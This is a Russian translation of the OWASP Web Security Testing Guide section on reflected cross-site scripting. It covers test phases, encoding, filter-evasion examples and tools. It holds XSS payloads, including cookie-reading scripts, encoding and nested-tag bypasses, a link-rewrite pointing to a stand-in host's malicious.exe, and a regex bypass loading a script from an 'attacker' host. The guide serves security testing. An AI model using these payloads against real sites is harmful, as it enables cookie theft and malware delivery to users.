



# Отраженный межсайтовый скриптинг (Reflected XSS)

| ID |
| --- |
| WSTG-INJT-01 |

## Резюме

Отраженное [межсайтовое выполнение сценариев (Reflected Cross-site Scripting, XSS)](https://owasp.org/www-community/attacks/xss/) возникает, когда злоумышленник внедряет исполняемый браузером код в отдельный HTTP-ответ. Внедренная полезная нагрузка атаки не сохраняется в самом приложении; она является непостоянной (non-persistent) и воздействует только на тех пользователей, которые открывают специально сформированную вредоносную ссылку или стороннюю веб-страницу. Вредоносная строка передается в составе специально сформированного URI или HTTP-параметров, некорректно обрабатывается приложением и возвращается жертве.

Отраженные XSS — наиболее распространенный тип XSS-атак, встречающийся на практике. Атаки Reflected XSS также известны как непостоянные (non-persistent) XSS-атаки, а поскольку полезная нагрузка атаки доставляется и исполняется в рамках одного запроса и ответа, их также называют XSS первого порядка (first-order) или XSS типа 1 (type 1 XSS).

Когда веб-приложение уязвимо к данному типу атак, оно возвращает клиенту непроверенные входные данные, полученные через запросы. Стандартная схема реализации (modus operandi) атаки включает этап проектирования, на котором атакующий создает и тестирует вредоносный URI; этап социальной инженерии, на котором жертву убеждают открыть этот URI в своем браузере; и итоговое исполнение вредоносного кода в браузере жертвы.

Как правило, код атакующего пишется на языке JavaScript. Злоумышленники обычно используют подобные уязвимости для установки кейлоггеров (keyloggers), кражи файлов cookie жертвы, перехвата содержимого буфера обмена (clipboard theft) и изменения содержимого страницы (например, ссылок для скачивания).

Одной из главных сложностей в предотвращении XSS-уязвимостей является корректное кодирование символов. В некоторых случаях веб-сервер или веб-приложение могут не фильтровать определенные кодировки символов — например, веб-приложение может отфильтровывать `<script>`, но пропускать `%3cscript%3e`, что представляет собой просто альтернативное кодирование тегов.

## Цели тестирования

- Идентифицировать переменные, отражаемые в ответах приложения.
- Оценить входные данные, которые они принимают, и кодирование, применяемое при выводе (если таковое имеется).

## Методика тестирования

### Тестирование методом «черного ящика»

Тестирование методом «черного ящика» (black-box testing) включает как минимум три фазы:

#### Выявление векторов ввода

Определение векторов ввода. Для каждой веб-страницы тестировщик должен определить все пользовательские переменные веб-приложения и способы их передачи. Сюда входят скрытые или неочевидные входные точки, такие как HTTP-параметры, POST-данные, значения скрытых полей форм (hidden form fields), а также предустановленные значения радиокнопок (radio buttons) или выпадающих списков выбора. Как правило, для просмотра этих скрытых переменных используются встроенные в браузер средства разработчика (HTML-редакторы) или веб-прокси. См. пример ниже.

#### Анализ векторов ввода

Анализ каждого вектора ввода на наличие потенциальных уязвимостей. Для обнаружения уязвимости XSS тестировщик обычно использует специально сформированные тестовые данные для каждого вектора ввода. Такие входные данные, как правило, безвредны, но вызывают отклик браузера, явно свидетельствующий об уязвимости. Тестовые данные могут генерироваться с помощью фаззера веб-приложений (web application fuzzer), автоматизированного предопределенного списка известных вредоносных строк или вручную.
  Примеры таких тестовых данных:

- `<script>alert(123)</script>`
- `"><script>alert(document.cookie)</script>`

Исчерпывающий список потенциальных тестовых строк см. в [XSS Filter Evasion Cheat Sheet](https://owasp.org/www-community/xss-filter-evasion-cheatsheet).

#### Оценка последствий

Для каждого тестового значения, опробованного на предыдущем этапе, тестировщик анализирует результат и определяет, представляет ли он уязвимость, имеющую реальное влияние на безопасность веб-приложения. Для этого необходимо изучить результирующий HTML-код страницы и найти внедренные тестовые данные. Обнаружив их, тестировщик определяет специальные символы, которые не были должным образом закодированы, заменены или отфильтрованы. Набор уязвимых неотфильтрованных специальных символов зависит от контекста конкретного фрагмента HTML.

В идеале все специальные символы HTML должны заменяться соответствующими сущностями HTML (HTML entities). Ключевыми распознаваемыми сущностями HTML являются:

- `>` (знак «больше»)
- `<` (знак «меньше»)
- `&` (амперсанд)
- `'` (апостроф или одинарная кавычка)
- `"` (двойная кавычка)

Однако полный перечень сущностей определяется спецификациями HTML и XML. [В Википедии приведена полная справочная таблица](https://en.wikipedia.org/wiki/List_of_XML_and_HTML_character_entity_references).

В контексте HTML-действий или кода JavaScript экранированию, кодированию, замене или фильтрации подлежит другой набор специальных символов. К ним относятся:

- `\n` (перевод строки)
- `\r` (возврат каретки)
- `'` (апостроф или одинарная кавычка)
- `"` (двойная кавычка)
- `\` (обратный слеш)
- `\uXXXX` (символы Unicode)

Более подробную информацию см. в [руководстве по JavaScript от Mozilla](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Guide/Grammar_and_types#Using_special_characters_in_strings).

#### Пример 1

Например, рассмотрим сайт с приветственным сообщением `Welcome %username%` и ссылкой на загрузку.


*Figure 4.7.1-1: XSS Example 1*

Тестировщик должен предполагать, что любая точка ввода данных может привести к XSS-атаке. Для ее анализа тестировщик экспериментирует с пользовательской переменной, пытаясь вызвать уязвимость.

Попробуем перейти по следующей ссылке и посмотрим, что произойдет:

```text
https://example.com/index.php?user=<script>alert(123)</script>
```

Если санитизация не применяется, появится следующее всплывающее окно:


*Figure 4.7.1-2: XSS Example 1*

Это указывает на наличие XSS-уязвимости и демонстрирует, что тестировщик может выполнить произвольный код по своему выбору в браузере любого пользователя, если жертва перейдет по ссылке тестировщика.

#### Пример 2

Попробуем другой фрагмент кода (ссылку):

```text
https://example.com/index.php?user=<script>window.onload = function() {var AllLinks=document.getElementsByTagName("a");AllLinks[0].href = "https://badexample.com/malicious.exe";}</script>
```

Это приводит к следующему поведению:


*Figure 4.7.1-3: XSS Example 2*

В результате пользователь, нажавший на ссылку, предоставленную тестировщиком, загрузит файл `malicious.exe` с контролируемого атакующим сайта.

### Обход фильтров XSS

Предотвращение атак отраженного межсайтового выполнения сценариев достигается за счет санитизации (очистки) входных данных веб-приложением, блокирования вредоносного ввода межсетевым экраном веб-приложений (Web Application Firewall, WAF) или встроенными механизмами защиты современных веб-браузеров. При тестировании уязвимостей специалист должен исходить из предположения, что браузеры не предотвратят атаку. Браузеры могут быть устаревшими или иметь отключенные встроенные функции безопасности. Аналогичным образом, WAF не гарантируют распознавание новых, ранее неизвестных атак. Злоумышленник может сформировать строку атаки, которая не будет распознана WAF.

Таким образом, основная часть защиты от XSS должна основываться на санитизации ненадежного пользовательского ввода самим веб-приложением. Разработчикам доступно несколько механизмов санитизации, таких как возврат ошибки, удаление, кодирование или замена некорректных входных данных. Способ, с помощью которого приложение обнаруживает и исправляет недопустимый ввод, является еще одним уязвимым местом в защите от XSS. Черный список (deny list) может не содержать всех возможных векторов атаки, белый список (allow list) может быть чрезмерно мягким, процедура санитизации может завершиться сбоем, либо определенный тип входных данных может ошибочно считаться доверенным и оставаться без обработки. Все это позволяет злоумышленникам обходить фильтры XSS.

В документе [XSS Filter Evasion Cheat Sheet](https://owasp.org/www-community/xss-filter-evasion-cheatsheet) описаны распространенные тесты на обход фильтрации.

#### Пример 3: значение атрибута тега

Поскольку подобные фильтры часто строятся на основе черных списков (deny list), они не способны заблокировать все типы выражений. Фактически существуют сценарии, при которых эксплуатация XSS может быть осуществлена без использования тегов `<script>` и даже без символов `<` и `>`, которые обычно фильтруются.

Например, веб-приложение может использовать введенное пользователем значение для заполнения атрибута тега, как показано в следующем коде:

```html
<input type="text" name="state" value="INPUT_FROM_USER">
```

Тогда злоумышленник может отправить следующее значение:

```text
" onfocus="alert(document.cookie)
```

#### Пример 4: иной синтаксис или кодировка

В некоторых случаях сигнатурные фильтры можно легко обойти путем обфускации атаки. Как правило, этого можно достичь за счет внесения неожиданных вариаций в синтаксис или кодировку. Браузер воспринимает эти вариации как валидный HTML при возврате кода, и при этом они могут быть пропущены фильтром.

Ниже приведены некоторые примеры:

- `"><script >alert(document.cookie)</script >`
- `"><ScRiPt>alert(document.cookie)</ScRiPt>`
- `"%3cscript%3ealert(document.cookie)%3c/script%3e`

#### Пример 5: обход нерекурсивной фильтрации

Иногда санитизация применяется только один раз и не выполняется рекурсивно. В этом случае атакующий может обойти фильтр, отправив строку, содержащую вложенные конструкции, например:

```text
<scr<script>ipt>alert(document.cookie)</script>
```

#### Пример 6: подключение внешнего скрипта

Предположим, что разработчики целевого сайта реализовали следующий код для защиты входных данных от внедрения внешних скриптов:

```php
<?
    $re = "/<script[^>]+src/i";

    if (preg_match($re, $_GET['var']))
    {
        echo "Filtered";
        return;
    }
    echo "Welcome ".$_GET['var']." !";
?>
```

Разбор приведенного регулярного выражения:

1. Поиск подстроки `<script`
2. Поиск пробельного символа `" "`
3. Любой символ, кроме `>`, повторяющийся один или более раз
4. Поиск подстроки `src`

Это полезно для фильтрации таких выражений, как `<script src="https://attacker/xss.js"></script>`, что является распространенным вектором атаки. Однако в данном случае санитизацию можно обойти, поместив символ `>` внутри атрибута между `script` и `src` следующим образом:

```text
https://example/?var=<SCRIPT%20a=">"%20SRC="https://attacker/xss.js"></SCRIPT>
```

Это позволит проэксплуатировать уязвимость отраженного межсайтового выполнения сценариев, выполнив JavaScript-код, хранящийся на веб-сервере атакующего, как если бы он исходил от целевого сайта `https://example/`.

#### Пример 7: загрязнение HTTP-параметров (HPP)

Еще одним методом обхода фильтров является загрязнение HTTP-параметров (HTTP Parameter Pollution, HPP). Эта методика была впервые представлена Стефано ди Паолой (Stefano di Paola) и Лукой Кареттони (Luca Carettoni) в 2009 году на конференции OWASP в Польше. Подробнее см. раздел [HTTP Parameter Pollution](04.%20HTTP%20Parameter%20Pollution.md). Данная техника обхода заключается в разделении вектора атаки между несколькими одноименными параметрами. Способ объединения значений каждого параметра зависит от того, как конкретная веб-технология разбирает такие параметры, поэтому данный тип обхода возможен не всегда. Если тестируемая среда конкатенирует значения всех параметров с одинаковым именем, злоумышленник может применить эту технику для обхода механизмов защиты, основанных на сигнатурном анализе шаблонов.
Обычная атака:

```text
https://example/page.php?param=<script>[...]</script>
```

Атака с использованием HPP:

```text
https://example/page.php?param=<script&param=>[...]</&param=script>
```

Более подробный список техник обхода фильтрации см. в [XSS Filter Evasion Cheat Sheet](https://owasp.org/www-community/xss-filter-evasion-cheatsheet). Наконец, анализ ответов может быть сложным. Простой способ проверки — использовать код, выводящий диалоговое окно (alert), как в нашем примере. Это обычно свидетельствует о том, что атакующий может выполнить произвольный JavaScript по своему выбору в браузерах посетителей.

### Тестирование методом «серого ящика»

Тестирование методом «серого ящика» (gray-box testing) аналогично тестированию «черного ящика». При тестировании «серого ящика» пентестер обладает частичными знаниями о приложении. В этом случае пентестеру могут быть известны сведения о пользовательском вводе, механизмах валидации входных данных и о том, как пользовательский ввод отображается обратно клиенту.

При наличии доступа к исходному коду (тестирование методом «белого ящика» `[white-box testing]`) необходимо проанализировать все переменные, получаемые от пользователей. Кроме того, тестировщик должен изучить все реализованные процедуры санитизации, чтобы определить возможность их обхода.

## Инструменты

- [Hackvertor](https://hackvertor.co.uk/) — онлайн-инструмент, поддерживающий множество видов кодирования и обфускации JavaScript (или любых строковых данных).
- [BeEF](https://beefproject.com) — фреймворк для эксплуатации браузеров (Browser Exploitation Framework). Профессиональный инструмент для демонстрации воздействия уязвимостей браузеров в реальном времени.
- [ratproxy](https://code.google.com/archive/p/ratproxy/) — полуавтоматический, преимущественно пассивный инструмент аудита безопасности веб-приложений, оптимизированный для точного и чувствительного обнаружения, а также автоматической разметки потенциальных проблем и связанных с безопасностью шаблонов проектирования на основе анализа существующего пользовательского трафика в сложных средах Web 2.0.
- [Burp Proxy](https://portswigger.net/burp/) — интерактивный HTTP/S-прокси-сервер для атаки и тестирования веб-приложений.
- [Zed Attack Proxy (ZAP)](https://www.zaproxy.org) — интерактивный HTTP/S-прокси-сервер для атаки и тестирования веб-приложений со встроенным сканером.

## Ссылки и материалы

### Ресурсы OWASP

- [XSS Filter Evasion Cheat Sheet](https://owasp.org/www-community/xss-filter-evasion-cheatsheet)

### Книги

- Joel Scambray, Mike Shema, Caleb Sima - "Hacking Exposed Web Applications", Second Edition, McGraw-Hill, 2006 - ISBN 0-07-226229-0
- Dafydd Stuttard, Marcus Pinto - "The Web Application's Handbook - Discovering and Exploiting Security Flaws", 2008, Wiley, ISBN 978-0-470-17077-9
- Jeremiah Grossman, Robert "RSnake" Hansen, Petko "pdp" D. Petkov, Anton Rager, Seth Fogie - "Cross Site Scripting Attacks: XSS Exploits and Defense", 2007, Syngress, ISBN-10: 1-59749-154-3

### Технические документы (Whitepapers)

- [CERT - Malicious HTML Tags Embedded in Client Web Requests](https://resources.sei.cmu.edu/asset_files/WhitePaper/2000_019_001_496188.pdf)
- [cgisecurity.com - The Cross Site Scripting FAQ](https://www.cgisecurity.com/xss-faq.html)
- [S. Frei, T. Dübendorfer, G. Ollmann, M. May - Understanding the Web browser threat](https://www.researchgate.net/publication/230751208_Understanding_the_Web_browser_threat_Examination_of_vulnerable_online_Web_browser_populations_and_the_insecurity_iceberg)
